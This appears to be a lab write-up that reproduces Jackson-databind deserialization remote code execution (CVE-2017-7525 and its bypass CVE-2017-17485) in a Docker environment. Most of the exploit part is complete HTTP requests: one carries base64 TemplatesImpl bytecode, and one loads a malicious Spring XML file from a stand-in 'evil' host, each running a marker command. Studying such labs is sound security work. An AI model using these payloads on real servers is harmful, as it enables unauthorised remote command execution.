


Jackson-databind Deserialization Remote Command Execution (CVE-2017-7525)¶
Jackson Databind is a popular Java library used for serializing Java objects to JSON (JavaScript Object Notation) and deserializing JSON back into Java objects.
Jackson-databind supports Polymorphic Deserialization feature (which is disabled by default). Attackers are able to use this feature to perform remote code exection.
References:
- JacksonPolymorphicDeserialization
- Exploiting the Jackson RCE: CVE-2017-7525
- jackson-rce-via-spel
- Jackson Deserializer security vulnerability
Vulnerable environment¶
Execute following command to start a web server that uses Jackson 2.8.8:
docker compose up -d
After the server is started, http://your-ip:8080/ is your web page.
Exploit¶
CVE-2017-7525¶
Send following request to use the TemplatesImpl to execute Java bytescode, which contains command touch /tmp/prove1.txt:
POST /exploit HTTP/1.1
Host: your-ip:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/json
Content-Length: 1298
{
"param": [
"com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl",
{
"transletBytecodes": [
"yv66vgAAADMAKAoABAAUCQADABUHABYHABcBAAVwYXJhbQEAEkxqYXZhL2xhbmcvT2JqZWN0OwEABjxpbml0PgEAAygpVgEABENvZGUBAA9MaW5lTnVtYmVyVGFibGUBABJMb2NhbFZhcmlhYmxlVGFibGUBAAR0aGlzAQAcTGNvbS9iMW5nei9zZWMvbW9kZWwvVGFyZ2V0OwEACGdldFBhcmFtAQAUKClMamF2YS9sYW5nL09iamVjdDsBAAhzZXRQYXJhbQEAFShMamF2YS9sYW5nL09iamVjdDspVgEAClNvdXJjZUZpbGUBAAtUYXJnZXQuamF2YQwABwAIDAAFAAYBABpjb20vYjFuZ3ovc2VjL21vZGVsL1RhcmdldAEAEGphdmEvbGFuZy9PYmplY3QBAAg8Y2xpbml0PgEAEWphdmEvbGFuZy9SdW50aW1lBwAZAQAKZ2V0UnVudGltZQEAFSgpTGphdmEvbGFuZy9SdW50aW1lOwwAGwAcCgAaAB0BABV0b3VjaCAvdG1wL3Byb3ZlMS50eHQIAB8BAARleGVjAQAnKExqYXZhL2xhbmcvU3RyaW5nOylMamF2YS9sYW5nL1Byb2Nlc3M7DAAhACIKABoAIwEAQGNvbS9zdW4vb3JnL2FwYWNoZS94YWxhbi9pbnRlcm5hbC94c2x0Yy9ydW50aW1lL0Fic3RyYWN0VHJhbnNsZXQHACUKACYAFAAhAAMAJgAAAAEAAgAFAAYAAAAEAAEABwAIAAEACQAAAC8AAQABAAAABSq3ACexAAAAAgAKAAAABgABAAAABgALAAAADAABAAAABQAMAA0AAAABAA4ADwABAAkAAAAvAAEAAQAAAAUqtAACsAAAAAIACgAAAAYAAQAAAAoACwAAAAwAAQAAAAUADAANAAAAAQAQABEAAQAJAAAAPgACAAIAAAAGKiu1AAKxAAAAAgAKAAAACgACAAAADgAFAA8ACwAAABYAAgAAAAYADAANAAAAAAAGAAUABgABAAgAGAAIAAEACQAAABYAAgAAAAAACrgAHhIgtgAkV7EAAAAAAAEAEgAAAAIAEw=="
],
"transletName": "a.b",
"outputProperties": {}
}
]
}

This exploit can only be used in environments with Java versions lower than 7u21.
CVE-2017-17485¶
Jackson released a patch to fix CVE-2017-7525, but CVE-2017-17485 used org.springframework.context.support.FileSystemXmlApplicationContext to bypass it.
To reproduce CVE-2017-17485, prepare a evil XML content on your server, such as http://evil/spel.xml:
<beans xmlns="http://www.springframework.org/schema/beans"
xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
xsi:schemaLocation="
http://www.springframework.org/schema/beans
http://www.springframework.org/schema/beans/spring-beans.xsd
">
<bean id="pb" class="java.lang.ProcessBuilder">
<constructor-arg>
<array>
<value>touch</value>
<value>/tmp/prove2.txt</value>
</array>
</constructor-arg>
<property name="any" value="#{ pb.start() }"/>
</bean>
</beans>
Then, send following request to load the evil XML and execute command touch /tmp/prove2.txt:
POST /exploit HTTP/1.1
Host: your-ip:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/json
Content-Length: 138
{
"param": [
"org.springframework.context.support.FileSystemXmlApplicationContext",
"http://evil/spel.xml"
]
}
